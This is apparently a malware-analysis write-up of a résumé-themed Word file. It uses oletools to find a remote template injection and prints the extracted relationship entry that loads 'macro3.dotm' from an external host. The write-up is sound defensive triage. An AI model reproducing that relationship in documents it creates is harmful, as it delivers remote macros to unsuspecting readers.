 # incrediblyPolishedResume.docx

## Identification:

**FileName:** incrediblyPolishedResume.docx

**SHA256:** 868e6f35b12140b2c348cafac261402c1afc0dadbb178d971f1d5f6e5f117ac

**FileSize:** 159744 (bytes)

<br>

## Analysis:

For this analysis of this word file Oletools were used. Initial triage on this sample was carried out using oleid to check for any macro or remote template injections using the command.

`oleid incrediblyPolishedResume.docx`

    oleid 0.60.dev1 - http://decalage.info/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    
    Filename: incrediblyPolishedResume.docx
    --------------------+--------------------+----------+--------------------------
    Indicator           |Value               |Risk      |Description
    --------------------+--------------------+----------+--------------------------
    File format         |MS Word 2007+       |info      |
                        |Document (.docx)    |          |
    --------------------+--------------------+----------+--------------------------
    Container format    |OpenXML             |info      |Container type
    --------------------+--------------------+----------+--------------------------
    Encrypted           |False               |none      |The file is not encrypted
    --------------------+--------------------+----------+--------------------------
    VBA Macros          |No                  |none      |This file does not contain
                        |                    |          |VBA macros.
    --------------------+--------------------+----------+--------------------------
    XLM Macros          |No                  |none      |This file does not contain
                        |                    |          |Excel 4/XLM macros.
    --------------------+--------------------+----------+--------------------------
    External            |1                   |HIGH      |External relationships
    Relationships       |                    |          |found: attachedTemplate -
                        |                    |          |use oleobj for details
    --------------------+--------------------+----------+--------------------------

Here, from the result of oleid tool, it was found that this word file has external relationships, meaning that it may have remote template injection.

The word file was then extracted and was navigated to \word\_rels\settings.xml.rels. Inside the settings.xml.rels, following contents can be seen as shown below.

    <?xml version="1.0"  ?>
    <Relationships  xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
    <Relationship  Id="rId1"  Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"  Target="http://somtaw.warship.kuunlaan.local/macro3.dotm"  TargetMode="External"/>
    </Relationships>

Here, it can be seen that it will use the remote template 'macro3.dotm' from 'somtaw.warship.kuunlaan.local', which contains the macro and will execute it. 
